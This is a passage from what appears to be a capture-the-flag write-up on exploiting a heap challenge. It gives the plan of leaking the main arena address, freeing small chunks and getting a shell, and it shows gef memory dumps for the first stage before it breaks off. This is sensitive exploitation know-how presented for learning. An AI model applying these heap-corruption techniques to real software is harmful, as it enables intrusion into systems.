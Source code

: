 - Summary:
  1. Leak main arena address
  2. Free 2 small chunks
  3. Get shell

## 3. Exploit

Before we start our exploitation, I wrote these function to help our exploit more convenient

<details><summary>Code snippet</summary></details>

And now let’s start!

### Stage 1: Leak main arena address

At first, we will need a chunk with index 0 (means `A` because we use the `getchar()` function to turn index to char) with any size so that we can overwrite all the next chunk with just chunk `A`:

```
malloc(0, 0x10)
```

Let’s see where our chunk `A` is saved on stack after a first malloc:

```
0x00007ffe68571be0│+0x0000: "A=malloc(16)\n"   ← $rax, $rsp, $rdi
0x00007ffe68571be8│+0x0008: 0x0000000a29363128 ("(16)\n"?)
0x00007ffe68571bf0│+0x0010: 0x0000564641e852a0  →  0x0000000000000000    # Chunk index 0
0x00007ffe68571bf8│+0x0018: 0x0000000000000000
0x00007ffe68571c00│+0x0020: 0x0000000000000000
0x00007ffe68571c08│+0x0028: 0x0000000000000000
0x00007ffe68571c10│+0x0030: 0x0000000000000000
0x00007ffe68571c18│+0x0038: 0x0000000000000000
...
```

So it will save our malloc address from chunk `A` to chunk `Z` down of the stack like that. Let’s check the top chunk size:

```
gef➤  x/20xg 0x0000564641e852a0-0x10
0x564641e85290: 0x0000000000000000  0x0000000000000021    <-- Chunk index 0
0x564641e852a0: 0x0000000000000000  0x0000000000000000
0x564641e852b0: 0x0000000000000000  0x0000000000020d51    <-- Top chunk
0x564641e852c0: 0x0000000000000000  0x0000000000000000
0x564641e852d0: 0x0000000000000000  0x0000000000000000
0x564641e852e0: 0x0000000000000000  0x0000000000000000
0x564641e852f0: 0x0000000000000000  0x0000000000000000
0x564641e85300: 0x0000000000000000  0x0000000000000000
0x564641e85310: 0x0000000000000000  0x0000000000000000
0x564641e85320: 0x0000000000000000  0x0000000000000000
```

So our top chunk size now is `0x20d51` with the `PREV_INUSE` bit set. If we want to free that top chunk using the above technique (malloc a chunk larger than top chunk), we need to make our top chunk to be smaller because we can only malloc maximum 0x1000, which means we need to malloc around 20 chunks with size 0x1000. That would be long.
